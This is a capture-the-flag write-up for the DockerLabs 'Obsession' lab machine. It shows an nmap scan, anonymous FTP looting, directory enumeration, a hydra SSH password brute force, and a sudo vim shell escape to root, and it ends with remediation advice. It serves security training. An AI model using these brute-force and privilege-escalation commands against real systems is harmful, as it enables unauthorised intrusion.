









# Obsession — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info



## Summary

**Obsession** is a Very Easy DockerLabs machine built around a personal trainer's website with a stalker-ish backstory. Anonymous FTP access leaks two personal text files, one of which hints at a permissions misconfiguration. Web enumeration exposes a listable backup directory that reveals the system username (`russoski`), and a brute-force attack against SSH with that username recovers the password. Once authenticated, a passwordless sudo rule on `vim` is abused via GTFOBins to escalate directly to root, uncovering the story's final twist in root's home directory.

**Attack chain:** Reconnaissance → Anonymous FTP Enumeration → Web Enumeration (Backup Leak) → SSH Credential Brute Force → SSH Access (russoski) → Sudo Misconfiguration (vim) → Root

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
|_-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Russoski Coaching
```

Anonymous FTP access stands out immediately, along with two readable files already visible in the scan.

## 2. FTP Enumeration

Connected via anonymous FTP and pulled the exposed files:

```
ftp 172.17.0.2
Name (172.17.0.2:kaskamilla): anonymous
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt
-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt
ftp> mget *
```

Both files contain personal notes from the site owner, Russoski:

```
cat chat-gonza.txt
```



A conversation about a video he made of a girl named Nágore — thematic flavor, no credentials here.

```
cat pendientes.txt
```



Item 4 hints at a permissions misconfiguration on the box — worth keeping in mind for privilege escalation later.

## 3. Web Enumeration

Directory brute-forcing with `dirb`:

```
dirb http://172.17.0.2

==> DIRECTORY: http://172.17.0.2/backup/
==> DIRECTORY: http://172.17.0.2/important/
+ http://172.17.0.2/index.html (CODE:200|SIZE:5208)
+ http://172.17.0.2/server-status (CODE:403|SIZE:275)

---- Entering directory: http://172.17.0.2/backup/ ----
(!) WARNING: Directory IS LISTABLE.

---- Entering directory: http://172.17.0.2/important/ ----
(!) WARNING: Directory IS LISTABLE.
```

Both discovered directories are listable. Checked `/backup/` first:



Opened `backup.txt`:



Leaks the system username: `russoski`.

Checked `/important/` as well:



Just the classic Hacker Manifesto — flavor text, no further leads.

## 4. Credential Brute Force

Brute-forced SSH for the `russoski` account with `rockyou.txt`:

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
```

Credentials recovered: `russoski:iloveme`.

## 5. Gaining Access

Logged in over SSH with the recovered credentials:



Confirmed shell access as `russoski`.

## 6. Privilege Escalation

Checked available sudo rights:

```
sudo -l

User russoski may run the following commands on 3763ebe14724:
    (root) NOPASSWD: /usr/bin/vim
```

`vim` can be run as root without a password — a classic GTFOBins escalation vector. Spawned a shell from within it:

```
sudo -u root /usr/bin/vim
:shell
root@3763ebe14724:/home/russoski#
```

Root confirmed. Checked root's home directory and found one more file tied to the machine's story:

```
cd /root
cat Video-Nagore-Fernandez.txt
```



The final piece of the narrative — matching the video hint dropped in `chat-gonza.txt` earlier.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP access enabled, exposing sensitive personal files | Disable anonymous FTP access; require authentication for any file transfer service |
| System username leaked via a publicly readable backup file in a listable web directory | Disable directory listing, remove backup files from the web root, and avoid storing credentials or usernames in plaintext files |
| Weak SSH password (`iloveme`), crackable via wordlist brute force | Enforce a strong password policy and consider key-based SSH authentication with password login disabled |
| Passwordless sudo rule on `vim`, a full-featured editor capable of arbitrary code execution | Remove unnecessary NOPASSWD sudo rules; if `vim` access is required, restrict it or use a hardened/restricted mode |
